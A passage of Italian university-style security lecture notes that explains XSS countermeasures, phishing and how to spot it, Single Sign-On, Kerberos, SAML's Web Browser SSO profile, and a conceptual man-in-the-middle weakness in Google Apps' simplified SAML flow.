  * Occorre analizzare i dati in input "depurando" i parametri in ingresso degli elementi potenzialmente nocivi (tag HTML, apici, simboli utilizzati nei linguaggi di programmazione, ecc).
* A lato client:
  * Mantenere aggiornati i browser;
  * Firefox ha una Content Security Policy che permette all'utente di definire una politica di sicurezza piu' dettagliata rispetto alla Same-origin policy:
    * E' possibile specificare in base alla tipologia del contenuto quali siano i domini considerati "trusted" e quelli non.

___

### Phishing
Un attacco di tipo Phishing serve per iniettare a lato client uno script malevolo nella prima fase dell'attacco Reflected XSS.

Il termine fa riferimento all'attivita' illegale che "pesca" utenti in rete e li porta a visitare un sito Web malizioso che recupera a loro insaputa informazioni personali o riservate.

#### Obiettivo
* Recuperare le credenziali di accesso usate per il servizio di homebanking che la maggior parte degli istituti di credito mettono a disposizione dei propri clienti;
* Trasferimento illecito di soldi all'insaputa della vittima.

#### Funzionamento
* Le vittime vengono indotte ad inserire i propri dati in un sito Web che simula graficamente quello ufficiale;
* I dati inseriti vengono memorizzati ed usati dall'attaccante per aceve accesso al vero sito come un normale cliente.

#### Pescare le vittime
In genere vengono inviate migliaia di mail che inducono la vittima a visitare il finto sito: la mail in genere contiene avvisi di particolari situazioni o problemi che richiedono l'accesso alla parte del sito autenticata.

Il link presente nella mail indirizza l'utente vittima al sito di phishing che spedisce all'attaccante i codici inseriti.

#### Riconoscere l'attacco
Alcune parti della mail, se osservate con attenzione, possono segnalare che si tratta di una comunicazione anomala:
* Indirizzo del mittente del messaggio;
* Italiano stentato: errori ortografici, di sintassi o coniugazione dei verbi, in quanto generata da un traduttore automatico;
* Link ad una pagina esterna;
* Segnalazioni di blocco del conto, minacce di chiusura del conto o di servizi, piuttosto che segnalazioni di vittorie o premi a patto che si inseriscano i codici personali.
___

## Autenticazione in ambito distribuito

### Autenticazione SSO (Single Sign On)
In genere, in ambito Web, un singolo utente interagisce con diversi domini per accedere a diversi servizi (home banking, mail personale e di lavoro, social network, ecc) e **deve autenticarsi ad ogni dominio con cui interagisce** con le sue credenziali (coppia login/password).

Utilizzare credenziali diverse per ogni servizio e' scomodo ed insicuro, mentre usare un'unica identita' digitale tramite il SSO e' estremamente conveniente.

> SSO is a property of access control to multiple related, but indipendent, software systems.

Il SSO consente all'utente di autenticarsi una solva volta (con un'unica coppia di credenziali) e di **avere accesso a tutte le risorse (tutti i sistemi) alle quali e' abilitato, anche se appartenenti a domini diversi.**

#### Funzionamento
* L'utente si autentica presso un dominio (dominio primario);
* Tra il dominio primario e gli altri domini (domini secondari) esistono delle relazioni di fiducia (**trust**);
* Il dominio primario comunica ai domini secondari le informazioni dell'utente che si e' autenticato e, se necessario, lo autentica anche nei domini secondari.

#### Tipologie di server
Nel SSO si distinguono due tipologie di server:
* **Identity provider (IDP)**: gestite l'autenticazione e le credenziali degli utenti;
* **Service provider (SP)**: fornisce i servizi e si appoggia alle informazioni passate dall'IDP per autorizzare o meno l'accesso a una risorsa.

#### Tipologie di sistemi SSO
##### SSO Centralizzato
Esiste un unico IDP che gestisce le credenziali/identita' di tutti gli utenti.

Vantaggi:
* Facilita' di gestione;
* Controllo dell'accesso realizzato sfruttando le informazioni memorizzate nel dominio primario.
Svantaggi:
* Single point fo failure.

##### SSO Federato
Una federazione e' un insieme di organizzazioni (appartenenti a domini diversi) che decidono di collaborare condividendo delle regole (protocolli, formato identita' e relazioni di fiducia).

Ogni organizzazione della federazione gestisce:
* Un IDP per i suoi utenti;
* Diversi SP.

**L'utente puo' decidere con quale IDP interagire.**

##### Componenti
Il SSO, sia esso centralizzato o federato, necessita di:
* Stabilire quali siano le **relazioni di fiducia** tra le parti;
* **Definizione** sintattica e semantica degli **attributi** scambiati;
* **Protocolli** per lo scambio di informazioni di **autorizzazione** tra i domini.

#### Vantaggi
* **Aumenta la produttivita**':
  * Gli utenti devono ricordare solo una coppia di chiavi per il login iniziale;
  * Riduce il tempo speso per inserire di nuovo le credenziali relative ad una stessa identita'.
* **Riduce i costi di supporto**:
  * Riduce le richieste di aiuto agli Help Desks di credenziali dimenticate e account bloccati;
  * Semplifica la gestione delle password (riduzione del numero di password in uso per ogni utente).
* **Aumenta il livello di sicurezza**:
  * Maggiore e' il numero delle password da gestire, maggiore e' la possibilita' che vengano utilizzate password simili le une alle altre;
* **Semplifica la gestione degli accessi ai vari servizi**;
* **Maggiore accettazione dell'utente finale**;
* **Attacco di tipo phishing meno frequente**.

#### Svantaggi
* **Se le credenziali vengono rubate, si accede a tutti i servizi**;
* **La robustezza del sistema dipende dal processo di autenticazione utilizzato**:
  * Al meccanismo SSO si deve affiancare un sistema di autenticazione forte;
* **La fase di autenticazione diventa un single point of failure**.

#### Esempi
* Federazione IDEM per l'accesso federato;
* SWITCHCH;
* Kerberos: SSO centralizzato disponibile per Unix e Windows;
* OpenID: SSO federato usato da Google, Flickr, Yahoo, WordPress, ecc;
* Shibboleth System;
* Google Apps.

___

### Il protocollo Kerberos

Nasce negli anni 90 (sviluppato al MIT nel progetto Athena) come protocollo di autenticazione per garantire l'accesso sicuro a risorse di rete ad utenti di workstation.

* Basato su crittografia a chiave simmetrica:
  * Variante di Needham-Schroeder a chiave condivisa;
  * Usa principalmente DES;
  * Richiede una terza parte fidata;
* Presuppone che tutti gli orologi siano sincronizzati;
* Ne esistono 5 versioni di cui solo le ultime 2 disponibili al pubblico.

#### Attori del protocollo
* **Workstation client** (Alice): richede un servizio;
* **SP** (Bob): esegue il servizio richiesto dal client;
* **Authentication Server** (AS):
  * Fornisce il servizio di autenticazione in fase di login;
  * Condivide una chiave con ogni utente/server;
* **Ticket Granting Server** (TGS):
  * Emette tiket che provano l'identita' di chi li possiede:
    * I ticket servono a richiedere servizi ai SP senza inserire nuovamente la password.
* KDC = AS + TGS.

#### Obiettivi del protocollo
* **Non fare mai transitare la password di Alice lungo la rete**;
* **La password di Alice non deve mai essere memorizzata nella workstation macchina client**: dopo essere stata utilizzata deve essere subito scartata;
* **Le password degli utenti non dovrebbero essere memorizzate** in chiaro neppure nei database dei server di autenticazione;
* **Ad Alice e' richiesto di inserire la password una sola volta per sessione di lavoro**;
* La gestione delle informazioni di autenticazione e' centralizzata e risiede sul server di autenticazione;
* Se richiesto, anche i SP devono provare la loro autenticita' al client (mutua autenticazione);
* Se richiesto, client e server devono poter stabilire una connessione cifrata.

#### Funzionamento
* **FASE 1**:
  * Alice e AS usano la password per l'autenticazione;
  * AS consegna ad Alice un TGT-Ticket Granting Ticket (con scadenza) e una chiave di sessione;
* **FASE 2**:
  * TGS usa il TGT e la chiave per l'autenticazione di Alice;
  * Rilascia un ticket e una ulteriore chiave di sessione;
* **FASE 3**:
  * Alice usa il ticket con Bob per richiedere il servizio e la chiave per la comunicazione cifrata;
  * Nel caso di mutua autenticazione, Bob deve autenticarsi.

#### Ticket
* Viene **emesso dal TGS al client**;
* Viene **cifrato con la chiave condivisa tra il TGS e il SP** del servizio a cui sono destinati:
  * Il client richiedente non puo' leggerlo ne modificarlo;
* **Un client presenta ad un SP il ticket per dimostragli la sua identita'**;
* **Una volta emesso un ticket, il TGS non puo' imedirne l'utilizzo**;
* **L'AS genera il ticket speciale TGT** (Ticket Granting Ticket) che viene **usato per fare le richieste al TGS**:
  * Ogni volta che un client accede ad un servizio, usa il TGT per richiedere al TGS un nuovo ticket per quel determinato servizio:
    * Il ticket viene poi usato per autenticare l'utente al servizio;
* Contiene:
  * Identita' (username) del client richiedente;
  * Identita' del servizio a cui e' destinato;
  * Indirizzo IP della macchina client da cui il ticket puo' essere usato;
  * Timestamp in cui e' stato generato;
  * Lifetime del ticket;
  * Chiave di sessione condivisa tra client e SP.

#### Chiavi
* **Master Key**:
  * Chiave condivisa tra ciascun attore e AS/TGS;
  * Per il client viene generata dalla password;
  * Per il SP viene imposta dall'amministratore.
* **Session Key**:
  * Chiave da usare al posto della password quando si richiedono i ticket al TGS: TGT;
  * Chiave da usare per la comunicazione sicura con il SP: generata dal TGS e inserita nel ticket.

#### Uso della password
In fase di autenticazione l'utente inserisce username e password ma:
* **Solo lo username viene trasmesso all'AS**;
* L'AS verifica se l'utente e' presente nel suo database;
* Se esiste, crea un TGT e genera una chiave di sessione **che cifra con la chiave condivisa con l'utente** e la trasmette all'utente;
* L'utente **decifra la chiave di sessione usando la master key ottenuta dalla password**.

#### Formalizzazione del meccanismo di autenticazione

1. A->S: {A, SP}
2. S->A: {Timestamp<sub>S</sub>, Lifetime, K<sub>AB</sub>, B}<sub>K<sub>AS</sub></sub>, {Timestamp<sub>S</sub>, Lifetime, K<sub>AB</sub>, A}<sub>K<sub>BS</sub></sub>
3. A->B: {Timestamp<sub>S</sub>, Lifetime, K<sub>AB</sub>, A}<sub>K<sub>BS</sub></sub>, {A, Timestamp<sub>A</sub>}<sub>K<sub>AB</sub></sub>
4. B->A: {Timestamp<sub>A</sub>+1}<sub>K<sub>AB</sub></sub>

#### Realm
Il realm e' un insieme di client e server il cui controllo amministrativo e' affidato ad una singola coppia di AS/TGS.

Kerberos supporta l'autenticazione cross-realm (SSO federato):
* I client del realm R1 possono accedere a server del realm R2;
* Richiede un pre-agreement tra le coppie AS/TGS coinvolte:
  * AS/TGS di R1 condividono una chiave con AS/TGS di R2.

#### Vantaggi e svantaggi
* Vantaggi:
  * La password non viene mai trasmessa.
* Svantaggi:
  * Implementazione complessa:
    * La migrazione delle password utenti non e' automatizzata;
    * E' difficile customizzare un applicazione per integrarla con Kerberos;
  * Se il KDC viene compromesso, tutto il sistema crolla.

___

### Il linguaggio SAML - Security Assertion Markup Language
E' il linguaggio utilizzato per implementare l'infrastruttura necessaria nel SSO tramite XML. Realizzato nel 2001 da OASIS (Organization for the Advancement of Structured Information Standards).
Rappresenta lo standard per lo scambio di dati di autenticazione e autorizzazione (tramite asserzioni) tra domini di sicurezza distinti, tipicamente un IDP e un SP.
La piu' diffusa implementazione open source e' OpenSAML.

#### Funzionamento
SAML non specifica come i servizi di autenticazione siano implementati.

**SAML presuppone che l'utente (detto principal) sia iscritto ad almeno un IDP** e descrive come il principal comunichi con l'IDP in termini di numero di messaggi scambiati e formato dei messaggi.

##### Asserzioni
In particolare viene specificato il formato delle asserzioni:
* Dati di autenticazione e autorizzazione in genere trasferiti tra un IDP e un SP;
* Contengono informazioni che il SP usa per decidere se autorizzare o meno un accesso.

```xml
<saml:Assertion ...>
    ...
</saml:Assertion>

```
Le asserzioni possono conenere 3 tipi di informazioni:
* **Authentication statement**: indica che l'utente e' stato autenticato;
* **Attribute statement**: indica che un utente e' associato con gli attributi specificati:
  * Un attributo e' una coppia nome/valore;
* **Authorization decision statement**: specifica che un utente ha l'autorizzazione a compiere un'azione A su di una risorsa R in caso un evento E sia valido.

##### Protocolli
SAML specifica anche il protocollo per trasmettere le asserzioni tra un'entita' e l'altra facendo riferimento a **cosa** viene trasmesso e non a cosa.

##### Binding (vincoli)
I binding **come** le asserzioni vengano inviate da un server ad un altro.

Determinano in che modo richieste e risposte SAML vengono mappate al formato dei protocolli di comunicazione e trasmissione standard (SOAP o HTTP).

##### Profili
I profili rappresentano dei casi d'uso definiti da una particolare combinazione di asserzioni, protocolli e vincoli.

#### Web Browser SSO
La comunicazione tra il client e il SP avviene tramite SSL/TSL con autenticazione del SP.
La comunicazione tra il client e l'IDP avviene tramite SSL/TSL con mutua autenticazione.

1. C->SP: {C, SP, URI}
     * Il client invia al SP una richiesta di connessione con le loro identita' e l'url della risorsa a cui vuole accedere; 
2. SP->C: {C, IDP, AuthReq(ID, SP), URI}
     * Il SP chiede al client di autenticarsi presso un IDP inviandogli la sua identia', l'identita' dell'IDP, una richiesta di autenticazione che contiene un ID e l'identia' del SP e l'URI della risorsa;
3. C->IDP: {C, IDP, AuthReq(ID, SP), URI}
     * Il client reindirizza l'ultimo messaggio del SP all'IDP;
4. IDP->C: {ID, SP, IDP, {AA}<sub>K<sub>IDP</sub><sup>-</sup></sub>, URI}
     * L'IDP costruisce un'**Authentication Assertion** (AA) che contiene:
       * L'ID inserito nella richiesta di autenticazione;
       * Identita' del client;
       * Identita' del SP; 
       * Identita' dell'IDP.
     *  La AA viene inviata cifratata (con la chiave privata dell'IDP) al client insieme all'URI;
5. C->SP: {ID, SP, IDP, {AA}<sub>K<sub>IDP</sub><sup>-</sup></sub>, URI}
     * Il client reindirizza l'ultimo messaggio dell'IDP al SP;
6. SP->C: {Resource}
     * Il SP verifica l'AA e se va a buon fine invia la risorsa al client.
  
#### Cookie per SAML SSO
I Cookies non possono essere utilizzati a causa della Same Origin Policy, in quanto non sono trasferiti tra domini diversi.

#### Google Apps
Google Apps e' un esempio di SSO Federato tra i vari prodotti di Google. In particolare Google Apps offre un servizio SAML-based SSO per l'accesso alle applicazioni Web-based:
* Google funge da SP (offrendo servizi come gmail, docs, ecc);
* I partner di Google fungono da IDP e gestiscono username, password e altre info necessarie per autenticazione e autorizzazione.

Google Apps usa una versione alleggerita del Web Browser SSO sopra descritto, escludendo ID e SP nell'AA (messaggio 4). 
Inoltre ID, SP e IDP non sono inclusi nella response che il client invia al SP (messaggio 5).

Purtroppo questa versione alleggerita puo' subire un attacco Man-in-the-Middle:
* Bob contatta l'indruder I credendolo un SP fidato;
* I si finge Bob con Google;
* I riesce ad accedere a Google come Bob, in quanto nel response che invia a Google, che lui ha ottenuto da Bob (dopo che si e' autenticato con l'IDP) non e' stata inserita l'informazione relativa ne' all'IDP ne' al SP.

___

## Sicurezza della posta elettronica
### Funzionamento della posta elettronica

___

### PGP